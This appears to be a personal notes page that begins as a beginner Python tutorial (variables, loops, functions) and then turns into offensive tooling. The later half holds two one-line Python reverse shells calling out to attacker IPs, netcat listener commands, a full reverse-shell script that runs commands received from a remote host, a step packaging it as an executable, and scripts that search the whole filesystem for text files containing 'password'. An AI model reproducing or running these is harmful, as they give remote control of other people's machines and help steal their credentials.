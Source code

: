 # Introduction to Python and Case Study

> Python is a interpreted language


python1.py

name = "Philipe";
lastname = "Regenass";
age = 35;
salery = 10000.50;
income = salery * 12;
test = "1" + "1"
test2 = '2' + '2'
mystring = "It\'s Sunnday!!!";
l=len(mystring)
print(income);
print(income-12);
print(name + " " + lastname);
print(test)
print(test2)
print(mystring);
print(l)

door_locked = True
if door_locked:
    print("door is locked")
else:
    print("door is not locked")


i = 1
while i < 5:
    print(i)
    i = i + 1

mylist = [1, 'a', "hello", 12.15]

for item in mylist:
    print(item)


for letter in "hello":
    print(letter);

def say_name (name):
    print("hi", name)

say_name("Philippe");


---------------------------------------

Execute  Python Script in Command Line
python3 python1.py

---------------------------------------

Start Webserver in current Dictionary 
sudo python3 -m http.server 88

![-parallels@kali-linux-2021-1--[~Desktop]](assets/-parallels@kali-linux-2021-1--%5B~Desktop%5D.png)



---------------------------------------

Reverse Shell to run on Target Machine

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.4",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 


Listen on my Computer that Target Machine Connect to me

nc -nlvp 4242
listening on [any] 4242 ...

---------------------------------------

List all .txt on Desktop

import glob, os
os.chdir("/home/parallels/Desktop/")
for file in glob.glob("*.txt"):
    print(file)

---------------------------------------

Print all .txt files on System

import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            print(os.path.join(root, file))

---------------------------------------

Print Path of all .txt which contains 'password'

import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            with open(os.path.join(root, file)) as f:
                if 'password' in f.read():
                    print(os.path.join(root, file))


---------------------------------------

Linux Priv Checker 
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py



---------------------------------------


Own Reverse Shell Script

import socket as socket
import subprocess as subprocess
import os as os

# Create a socket
def socket_create():
    try:
         global host
         global port
         global s
         host = "10.211.55.4"
         port = 9999
         s = socket.socket()
    except s.error as msg:
        print("Socket creation error: " + str(msg))


# Connect to remote socket
def socket_connect():
    try:
        global host
        global port
        global s
        s.connect((host, port))
    except socket.error as msg:
        print("Socket connection error: " + str(msg))


# Receive commands from remote server and run on local machine
def receive_commands():
    global s
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == 'cd':
            os.chdir(data[:3].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd()) + '> '))
            print(output_str)
    s.close()

def main():
    socket_create()
    socket_connect()
    receive_commands()

main()
        




---------------------------------------

Listen on my Computer that Target Machine Connect to me

nc -nlvp 9999

---------------------------------------

Create Executable (exe ? )  from Python
sudo pyinstaller --onefile reverseshell.py

---------------------------------------

Python One Line Reverse Shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("35.226.248.77",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


---------------------------------------

## Read sys arg

You can use sys.argv.

....

tsv_file = sys.argv[1]

xlsx_file = sys.argv[2]

...

You can run like:

main.py sample.tsv sample.xlsx